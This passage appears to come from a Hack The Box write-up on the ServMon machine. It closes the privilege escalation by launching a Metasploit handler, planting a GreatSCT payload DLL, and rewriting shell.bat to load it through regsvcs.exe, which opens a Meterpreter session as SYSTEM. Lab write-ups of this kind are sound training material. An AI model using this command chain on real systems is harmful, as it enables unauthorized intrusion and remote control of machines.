 Then we can run **metasploit** with the generated RC file:

```bash
$ msfconsole -r /usr/share/greatsct-output/handlers/serv.rc
```

After that, we have to transfer the `serv.dll` file using either `scp` or `wget` or whatever.

Finally, we have to change `C:\Temp\shell.bat`'s content:

```cmd
nadine@SERVMON C:\Temp> cmd /c "echo C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe C:\Temp\serv.dll > C:\Temp\shell.bat"
```

Go to `Console`, run **shell**, and you'll get this beautiful message: `Meterpreter session 1 opened` 

![](https://i.imgur.com/vRU0Fum.gif?noredirec)

![](/assets/img/htb/machines/windows/easy/servmon/system.png)


___

## Useful links

- <https://nvd.nist.gov/vuln/detail/CVE-2019-20085>
- <https://eternallybored.org/misc/netcat/>
- [GreatSCT](https://github.com/GreatSCT/GreatSCT)